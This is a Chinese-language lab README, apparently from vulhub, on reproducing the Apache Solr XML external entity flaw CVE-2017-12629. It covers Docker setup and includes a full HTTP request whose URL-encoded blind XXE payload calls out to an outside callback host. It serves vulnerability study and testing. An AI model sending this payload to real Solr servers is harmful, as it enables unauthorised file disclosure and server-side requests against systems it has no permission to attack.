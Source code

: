 # Apache solr XML 实体注入漏洞（CVE-2017-12629）

漏洞原理与分析可以参考：

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境仅测试XXE漏洞，RCE和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 环境搭建

运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20root%20%5B%0A%3C!ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2F%2Fxxe.675ba661.2m1.pw%2F%22%3E%0A%25remote%3B%5D%3E%0A%3Croot%2F%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

可接受到Java发来的请求：

![](1.png)

但Java XXE的OOB攻击，利用ftp高版本只能读取部分内容，暂没解决，相关资料如下：

- http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html
- https://blog.zsec.uk/blind-xxe-learning/